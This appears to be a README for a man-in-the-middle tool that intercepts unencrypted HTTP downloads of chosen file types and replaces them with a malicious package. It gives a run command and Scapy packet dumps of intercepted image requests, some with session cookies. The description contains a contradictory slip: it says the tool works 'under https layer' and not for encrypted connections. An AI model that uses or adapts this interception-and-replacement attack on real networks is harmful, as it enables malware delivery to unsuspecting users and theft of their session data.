 ## MitM attack manage packages

    At this moment, the module only work under https layer, not for encrypted connections https.
    by default, the prcessor looking for raw packages for request and responses with a choosen extensions.
    ie: ".zip, .pdf, .txt, .exe"
    On response for request we have an oportuninty to replace the content with a malicious package.
     
# Run attack 

   Example over extension files ".png" images:
   
   
   root@kali:~/PycharmProjects/mitm_process.py# python replace_downlad.py 







    [+] donwload png file Request
    ###[ IP ]### 
      version   = 4
      ihl       = 5
      tos       = 0x0
      len       = 607
      id        = 56481
      flags     = DF
      frag      = 0
      ttl       = 64
      proto     = tcp
      chksum    = 0x8b8f
      src       = 10.0.2.15
      dst       = 23.101.172.244
      \options   \
    ###[ TCP ]### 
         sport     = 34320
         dport     = http
         seq       = 640728776
         ack       = 244754
         dataofs   = 5
         reserved  = 0
         flags     = PA
         window    = 63712
         chksum    = 0xd3cf
         urgptr    = 0
         options   = []
    ###[ Raw ]### 
            load      = 'GET /images/header-stars.png HTTP/1.1\r\nHost: www.vorlonjs.io\r\nUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\nAccept: image/webp,*/*\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nReferer: http://www.vorlonjs.io/css/main.css\r\nConnection: keep-alive\r\nCookie: _ga=GA1.2.691487594.1589563688; _gid=GA1.2.902708087.1589563688; ARRAffinity=5f6a84feb0f432414866a8390327b4f7cc30bdcffa70f8c37512930b34042f07\r\nIf-Modified-Since: Wed, 06 May 2015 15:08:32 GMT\r\nIf-None-Match: "51213084e88d01:0"\r\nCache-Control: max-age=0\r\n\r\n'
    
    None
    [+] donwload png file Request
    ###[ IP ]### 
      version   = 4
      ihl       = 5
      tos       = 0x0
      len       = 615
      id        = 53206
      flags     = DF
      frag      = 0
      ttl       = 64
      proto     = tcp
      chksum    = 0x9852
      src       = 10.0.2.15
 